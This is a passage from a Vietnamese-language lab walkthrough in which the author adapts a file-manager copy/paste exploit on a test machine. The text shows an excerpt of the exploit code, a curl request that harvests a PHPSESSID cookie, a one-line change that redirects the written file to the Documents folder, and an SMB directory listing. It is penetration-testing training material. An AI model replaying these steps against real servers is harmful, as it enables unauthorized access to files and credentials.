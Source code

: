 Tuy nhiên, lưu ý rằng lỗ hổng này cần có giá trị cookie PHPSESSID hợp lệ để hoạt động.

```
def main():
	...
	session_cookie = sys.argv[2]
	...
	copy_result = copy_cut(url, session_cookie, file_name)
	if copy_result==200:
		paste_result = paste_clipboard(url, session_cookie)
...
```

May mắn thay, có thể lấy được session cookie hợp lệ từ trình duyệt web.

```
┌──(kali㉿kali)-[~]
└─$ curl -I http://192.168.120.204/filemanager/
HTTP/1.1 200 OK
Date: Thu, 27 May 2021 14:18:37 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: PHPSESSID=7hrtuqi0g91njt7n9eu498q5rv; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: last_position=%2F; expires=Thu, 03-Jun-2021 14:18:37 GMT; Max-Age=604800
Content-Type: text/html; charset=UTF-8
```

Trong trường hợp này, session cookie như sau:

```
PHPSESSID=7hrtuqi0g91njt7n9eu498q5rv
```

Vì đang nhắm mục tiêu vào thư mục `Documents` của FileManager làm đích ghi file, nên sẽ cần thực hiện một thay đổi nhỏ đối với exploit bằng cách sửa đổi dòng 36 thành nội dung sau:

```
url_paste, data="path=Documents/", headers=headers)
```

Mặc dù có thể đọc các file từ thư mục được share thông qua cả GUI của FileManager và phiên SMB, lưu ý rằng file đang nhắm mục tiêu là file `.php`. Do đó, nó sẽ không hiển thị trong trình duyệt. May mắn thay, SMB session đã cứu nguy.

Trước khi khởi chạy explot, liệt kê nội dung của thư mục để xem file không có ở đó.

```
smb: \> ls
  .                                   D        0  Fri Apr  9 11:47:12 2021
  ..                                  D        0  Fri Apr  9 11:47:12 2021
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 11:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 11:47:12 2021

                16446332 blocks of size 1024. 10839448 blocks available
smb: \>
```
